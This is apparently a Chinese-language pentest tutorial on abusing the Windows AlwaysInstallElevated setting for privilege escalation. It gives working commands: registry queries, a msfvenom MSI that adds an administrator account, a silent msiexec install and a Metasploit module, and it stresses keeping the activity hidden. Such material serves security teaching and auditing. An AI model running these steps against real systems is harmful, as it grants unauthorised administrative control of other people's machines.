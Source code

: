 AlwaysInstallElevated是微软允许非授权用户以SYSTEM权限运行安装文件(MSI)的一种设置。然而，给予用于这种权利会存在一定的安全隐患，因为如果这样做下面两个注册表的值会被置为"1"：
```
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001 

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001
```
想查询这两个键值最简单的方法就是使用内建的命令：
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
> Note：如果这条命令出错类似于："The system was unable to find the specified registry key or value"，这可能是组策略里AlwaysInstallElevated没有被定义，因此不存在相关联的注册表项。
现在我们假设AlwaysInstallElevated已经启用了，我们可以利用MSFVenom工具来生成一个在目标机器上增加管理员用户的MSI安装文件：

```
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
```
当我们在目标机器上加载了新生成的MSI文件后，我们可以使用Windows命令行工具Msiexec进行安装：
```
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi
```
msiexec相关参数解释如下：

1./quiet=安装过程中禁止向用户发送消息

2./qn=不使用GUI

3./i=安装程序

执行后，我们可以在目标机器上检测我们新创建的管理员用户：

```
net localgroup Administrators
```

> Note:使用MSFVenom创建MSI文件时使用了always_install_elevated模块，那么在安装过程中会失败。这是因为操作系统会阻止未注册的安装。
```
Metasploit Module:exploit/windows/local/always_install_elevated
```
这个模块只需要连接到之前运行过的会话即可：


这是一种叫QUIET的高级设置，多数情况下我们都会愿意启动的。启用QUIET选项就跟在Msiexec中使用/quiet选项一样不会给用户显示任何信息。这样确保不会弹出任何信息，使我们的活动更加隐蔽。

这个模块会创建一个随机文件名的MSI文件并在提权成功后删除所有已部署的文件。
